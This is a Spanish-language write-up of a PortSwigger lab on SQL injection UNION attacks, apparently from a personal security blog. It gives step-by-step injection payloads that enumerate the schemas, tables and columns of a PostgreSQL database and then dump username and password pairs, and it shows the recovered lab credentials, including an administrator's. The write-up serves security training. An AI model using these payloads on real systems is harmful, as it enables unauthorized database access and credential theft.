 ```yaml
---
title: SQL injection UNION attack, retrieving data from other tables - portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```


En este laboratorio practicaremos la enumeración de los datos de una tabla

![20240802112921.png](20240802112921.png)

Luego de obtener el numero de columnas validos en la consulta podemos enumerar la base de datos que se tiene en el sitio web.

```c
Tech+gifts' union select null,schema_name from information_schema.schemata--
```

Las base de datos que encontramos son:

```c
information_schema
public
pg_catalog
```

Enumeraremos las tablas de la base de datos `public`

```c
Tech+gifts' union select null,concat(table_name) from information_schema.tables where table_schema='public'--
```

Encontramos las tablas de `users` 

```c
users
products
```

Luego enumeramos las columnas de la tabla `users`

```c
Tech gifts' union select null,concat(column_name) from information_schema.columns where table_schema='public' and table_name='users'--
```

En esta columna encontraremos las siguientes columnas:

```c
email
password
username
```

Observamos que tenemos la columna de `username` y `password`, de las cuales ingresaremos la siguiente consulta para obtener la data que se almacena en ellos.

```c
Tech gifts' union select null,concat(username, ' : ', password) from users--
```

Obtenemos credenciales que probaremos en el panel de login.

```c
wiener : 1sf8vtlhp2vh1qt10g0o
carlos : v8p0o0mdvt4b00dwvgce
administrator : oyjcs58lai4axcujifr8
```

![20240802114547.png](20240802114547.png)
